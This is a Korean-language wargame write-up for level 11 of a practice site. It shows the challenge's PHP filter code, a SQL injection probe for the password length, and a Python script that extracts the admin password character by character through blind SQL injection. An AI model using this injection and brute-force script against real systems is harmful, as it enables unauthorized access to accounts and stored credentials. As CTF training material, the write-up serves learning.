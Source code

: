 <img width="155" alt="스크린샷 2020-01-11 오후 4 39 27" src="https://user-images.githubusercontent.com/54495632/72201054-766e5300-3493-11ea-8c6f-36c488738afe.png">

LV 11.

<img width="762" alt="스크린샷 2020-01-11 오후 4 55 49" src="https://user-images.githubusercontent.com/54495632/72201057-7a9a7080-3493-11ea-92d3-582d5df36e79.png">

  $id = $_GET['id'];
  $pw = $_GET['pw'];
  if(preg_match('/play|_|\.|\(|\)|info/i', $id)){ exit("Nope !!");}
  if(preg_match('/play|_|\.|\(|\)|info/i', $pw)){ exit("Nope !!");}
특별한 필터링 조건은 없다. id pw 를 get으로 받는 형식

if(($result['id']=='admin') && $result['pw']==$_GET['pw']){
    echo "C0n9raz!! Letz go 2 th3 n3xt L3v3l ^^";
    get_score();
  }else if($result){
    echo "Good J0b :)";
  }else{
    echo "N0p3..";
  }

전체 result 가 true이면 Good job:) 출력
false면 N0p3이 출력되고 id가 admin, pw가 맞으면 그 때 문제가 해결된다.

<img width="765" alt="스크린샷 2020-01-11 오후 5 02 03" src="https://user-images.githubusercontent.com/54495632/72201119-2ba10b00-3494-11ea-8ebf-a577e62dcdd3.png">

먼저 pw의 길이를 유추하기로 했다. 
select * from play_sql11 where id='admin' and pw=''or length(pw)<10#'

다음과 같은 쿼리문을 응용하여 여러 단계의 과정을 통해 

<img width="777" alt="스크린샷 2020-01-11 오후 5 03 29" src="https://user-images.githubusercontent.com/54495632/72201138-5ab77c80-3494-11ea-8371-7b8ca118b0db.png">

pw의 length가 7임을 찾았다.


<img width="274" alt="스크린샷 2020-01-11 오후 5 11 24" src="https://user-images.githubusercontent.com/54495632/72201274-88e98c00-3495-11ea-8c8d-31df8ed411ee.png">

import requests

cookies={'PHPSESSID':'55u9gmc98r1hrdgmohnr0upf75'}
url="http://crackus.jeju.kr/chall11.php?id="

id='admin'
flag=""
for i in range(1,8):
    for j in range(33,128):
        query=id+"&pw=%27or+ascii%28substr%28pw%2C"+str(i)+"%2C1%29%29%3D"+str(j)+"%23"
        geturl=url+query
        res=requests.get(geturl,cookies=cookies)
        if((res.text).find("Good J0b :)")>0):
            flag+=chr(j)
            print (flag)
            break

print ("finish flag :"+flag)


파이썬을 이용하여 pw를 찾았다.

<img width="502" alt="스크린샷 2020-01-11 오후 5 11 11" src="https://user-images.githubusercontent.com/54495632/72201283-96067b00-3495-11ea-85a6-854669adccb2.png">

<img width="671" alt="스크린샷 2020-01-11 오후 5 11 17" src="https://user-images.githubusercontent.com/54495632/72201284-97d03e80-3495-11ea-8ffd-af8d707087de.png">